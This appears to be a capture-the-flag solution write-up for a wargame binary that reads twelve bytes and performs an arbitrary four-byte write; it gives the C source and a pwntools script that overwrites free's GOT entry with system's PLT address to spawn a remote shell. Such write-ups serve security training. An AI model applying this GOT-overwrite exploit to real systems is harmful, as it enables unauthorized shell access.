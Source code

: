 # SOLUTION

The source code is as follows:

```c
    system("/usr/games/cowsay \"Can you find the shell?\"");

    char * cow_buffer = malloc(12);
    memset(cow_buffer, 0, 12);
    read(0, cow_buffer, 12);
    void * ptr;

    memcpy(&ptr, cow_buffer + 4, 4);
    memcpy(ptr, cow_buffer + 8, 4);

    free(cow_buffer);
```

It gives you an arbitrary four byte write to any four byte address. Note that
this is a 64 bit binary so pointers are 8 bytes.

The solution script:

```py
#!/usr/bin/python

from pwn import *


system_plt = 0x400650
free_got = 0x601018

def main():
    #p = process("./fourbytewrite")
    p = remote("wargame", 31340)
    p.clean()
    payload  = ''
    payload += "sh\x00\x00"
    payload += p32(free_got)
    payload += p32(system_plt)
    p.send(payload)


    log.success("Enjoy your shell")
    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()
```
